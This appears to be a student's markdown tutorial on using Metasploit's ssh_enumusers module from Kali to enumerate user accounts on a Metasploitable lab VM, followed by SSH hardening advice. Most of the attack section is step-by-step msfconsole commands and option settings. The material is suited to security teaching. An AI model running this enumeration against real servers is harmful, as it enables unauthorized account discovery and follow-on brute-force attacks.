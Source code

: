 ## Kali Linux Metasploit SSH exploit

- [Kali Linux Metasploit SSH exploit](#kali-linux-metasploit-ssh-exploit)
    - [functionality](#functionality)
    - [starting the attack](#starting-the-attack)
    - [solving this exploit](#solving-this-exploit)
    - [Explaination of solutions](#explaination-of-solutions)
    - [Sources](#sources)

#### functionality

The ssh_enumusers attack on Metasploit sends a series of SSH-Messages to the target server in order to elicit a response from the SSH-Server that contains Information about the user accounts that preexist on the system of the target server. The responses are then analysed by the tool to enumerate user accounts. This attack can then be used to gain access to an account on the system, or to launch other attacks against the system, a good example for a follow up attack would be a bruteforce attack.

#### starting the attack

Using Kali Linux to attack the SSH-Service on Metasploit you firstly must use the metasploit framework such as `msfconsole`.
In this example I will attack the SSH-service on the Metaspoit Virtual Machine. This particular attack looks for potential user accounts that are in the system, which then can be used in further attacks.

As I previously stated above, The first thing you have to do is to use the metasploit framework.
For this there is a tool already installed. It's called msfconsole. You can access this tool with the following command.
``
┌──(kali㉿kali)-[~]
└─$ msfconsole
``


Now you may notice a change. That you are now connected with the frame work and where once your username stood now stand `msf6`. This is because as already stated due to you being connected with the framework.
Now let's start with an attack on the target server in our case that would be the Metasploit VM.
For our attack we want to see if there are any users on the target system and what user accounts there are. For this we must use `ssh_enumusers`. Now we must select the tool that is used for this sort of attack, this can be done by using the listed command down below.

``
msf6 > use auxiliary/scanner/ssh/ssh_enumusers 
``

After selecting the right Tool we can now continue. See if we would start the attack now we would end up no where so we have to **configure** our attack. This can be done with a simple command. This command would be the one stated below.

``
msf6 auxiliary(scanner/ssh/ssh_enumusers) > show options
``

After typing in that command make sure that there is an Output. This Output contains the configuration of the attack. The Output should look like the following Output.
``````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````
Module options (auxiliary/scanner/ssh/ssh_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CHECK_FALSE   false            no        Check for false positives (random username)
   DB_ALL_USERS  false            no        Add all users in the current database to the list
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                            /wiki/Using-Metasploit
   RPORT         22               yes       The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)
   THRESHOLD     10               yes       Amount of seconds needed before a user is considered found (timing att
                                            ack only)
   USERNAME                       no        Single username to test (username spray)
   USER_FILE                      no        File containing usernames, one per line


Auxiliary action:

   Name              Description
   ----              -----------
   Malformed Packet  Use a malformed packet

``````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

As you can see the configuration of the attack looks pretty dry. This is because it's very likely that this is your first time setting up this kind of attack. However it is very easy to configure attacks. I will explain the module Options in my factsheet for my project you will find it here [ℹ️](../projectfactsheet.md#module-options-for-ssh_enumusers-attack)

Now the first thing you want to do is set the `RHOSTS` to the ip-address of your target system. As you can see in my documentation of how to install Kali or Metasploit. Look it up here [ℹ️](../MetasploitableInstallation.md#network-configs).
Setting the ip-address is very easy, just input the command below.
````
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 100.100.100.20
````

NOTE: Make sure that you do use the ip-address of the target system. 

After setting the ip-address of the target host system we now may adjust how many threads we want to create while our attack is running. Increasing this module option to say 25 threads will exponentially decrease our run time. This can be done with a simple command.

``
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set THREADS 25
``

NOTE: you can set the number of Threads to any number you want, just make sure that your system can actually support so many threads at a time.

And now we can bind our `USER_FILE` into our attack. This userfile comes preinstalled into Kali Linux when you opt to take the full installation of Kali Linux. you can bind this file with the following comamand
``
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/metasploit/namelist.txt
``

For our attack type we want to use a `Malformed Packets` attack, do this by typing in the following command. You can look up what this means in my project factsheet. [ℹ️](../projectfactsheet.md#auxiliary-actions-for-ssh_enumattack)
``
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set action Malformed Packet
``

Now before we run this attack let us make a file that logs every output of the attack. This process is called making a spool file. Making this file willl allow us to see the results of the attack. This can be done with the following command
``
msf6 auxiliary(scanner/ssh/ssh_enumusers) > spool /home/kali/console1.log
``

NOTE: Make sure that you open another linux terminal for this command

Running this attack can be done with the following command
``
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
``
#### solving this exploit

You can prevent the ssh_enumusers exploit by implementing following points. These several steps are crucial to ensure safety on your SSH-server. This can all be done in the config file of the SSH file. In order to do this go to the /etc directory and then to the following subdirectories, /ssh and then open the file ssh configuration file with following command.

``
sudo nano sshd_config
``

alternatively use the following command if youre still in the home directory

``
sudo nano /etc/ssh/sshd_config
``
``
1. Configure the SSH server to only allow a certain number of failed attempts before locking or disabling a user account.
2. Set up an intrusion detection system (IDS) to alert you when someone attempts to exploit the system.
3. Ensure that all user accounts have strong passwords.
4. Regularly change user passwords.
5. Enable two-factor authentication.
6. Disable root logins.
7. Set up a firewall to block suspicious IP addresses.
8. Monitor all SSH connections for suspicious activities.
9. Regularly patch and update the SSH server and its applications.
10. Limit access to the SSH server from trusted IP addresses
``

#### Explaination of solutions

1. Starting with the first solution. This solution prevents bruteforcing user accounts passwords. See bruteforcing function is a way of finding out Log-In credentials by trying different combinations of user account names and user account passwords. This is a very easy to deny, just change the config setting for failed login attempts before banning or suspending an ip-address.

2. This solution is very easy to explain as already kind of explained this solution alerts any intrusions that were recorded in your system. This is also especially useful against not only bruteforcing but also backdooring the targeted system. This solution can be enabled by either downloading a third-party software or changing the configuration in the config file.

3. Setting that users accounts can only be created when their passwords are strong enough will enusre that bruteforcing passwords will become near impossible. This, as every solution can be done in one of the config files.

4. Using this solution is very unlikely to prevent any breaches but it certainly helps with not having any instances. This can be done in one of the config files that manages user policies.

5. Enabling two-factor authentication or enforcing it, prevents bruteforcing and stealing user accounts.

6. Knowing what root-users can do is very critical, because knowing this you now know the biggest flaw in your system. Disabling remote login on to a root user is very critical because most if not often the root user holds a standardized password that can easily be bruteforced. Try setting root login only to local in order to prevent more serious damage.

7. Enabling this option to block any ip-adresses that were flagged for suspicious activities. Enabling this would be very effective against ssh_enumusers.

8. Monitoring activities on your ssh-service is very helpful because it can help you identify malicious activities and preemptively aborting or blocking that connection. Very helpful against backdoors.

9. Regularly patching and updating your ssh-service and also it's application that come with it, will significantly decrease the probability of successfull hacker attacks.

10. A more drastic meassure is to completlly limit the access to the server to only trusted ips. This means that only users that are in the same company or group as you, can access the ssh-server. This can be done in the sshd_config file.

#### Sources

[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1676532226/video_to_markdown/images/youtube--40fGsQJ7AeI-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://www.youtube.com/watch?v=40fGsQJ7AeI "")


